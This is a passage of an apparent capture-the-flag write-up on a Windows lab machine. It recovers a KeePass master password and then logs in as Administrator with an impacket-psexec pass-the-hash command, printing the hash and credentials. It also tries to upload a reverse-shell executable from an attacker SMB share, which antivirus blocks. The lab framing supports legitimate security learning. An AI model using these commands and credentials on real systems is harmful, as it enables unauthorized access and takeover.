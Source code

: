 ![image.png](image%2018.png)

What we have obtained is master password for KeePass Password manager I am gonna open it with `keepassx` in Linux.

```bash
sudo apt install keepassx
```

![image.png](image%2019.png)

I checked listening ports but I don’t see neither 8080 nor 8081:

```powershell
netstat -ano
```

![image.png](image%2020.png)

```bash
impacket-psexec Administrator@$IP -hashes :e0fb1fb85756c24235ff238cbe81fe00
```

![image.png](image%2021.png)

I tried LM hash of the Backup Stuff in Pass the Hash attack with impacket and was able to login:

![image.png](image%2022.png)

## Credentials

```bash
From Keepass - moonshine1
Administrator  - e0fb1fb85756c24235ff238cbe81fe00
```

![image.png](image%2023.png)

Let’s get a normal shell by uploading a reverse.exe and executing it first.

There is antivirus working on the target machine here so I cannot transfer the file:

> \\\10.10.14.2\share\reverse.exe
Operation did not complete successfully because the file contains a virus or potentially unwanted software.
{: .prompt-warning }

```powershell
dir /s root.txt
```

I run this commands from `c:\` but nothing can be found.

![image.png](image%2024.png)

```powershell
dir /s *.txt
```
